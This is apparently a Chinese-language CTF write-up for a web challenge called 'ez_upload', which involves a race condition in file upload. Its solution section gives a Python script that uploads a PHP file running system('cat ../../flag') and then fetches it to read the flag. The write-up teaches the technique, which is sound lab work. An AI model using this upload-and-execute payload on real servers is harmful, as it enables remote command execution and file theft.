 # 题目名

- 作者：Cee-YSKM
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：[svuctf-winter-2023/ez_upload](https://ghcr.io/svuctf/svuctf-winter-2023/ez_upload:latest)
- 端口：80

## 题目描述

文件上传的条件竞争 Enjoy your Happy New Year Day! Best wishes!!!

## 题目解析

题目可以使用两种解决办法 一种是python脚本 一种是使用burp

脚本如下

```python
import requests
import concurrent.futures
import threading

url = "" #填写你的url
session = requests.session()

# upload file
files = {'upload': ('xxx.php', '<?php system("cat ../../flag");')}
try:
    session.post(url=url, files=files, timeout=1)
except requests.exceptions.ReadTimeout:
    pass

# access file
resp = session.get(f"{url}/upload/xxx.php")  # 你的shell php
print(resp.text)
```

burp suite 的使用方法有空教你们 原理大差不差 都是竞争
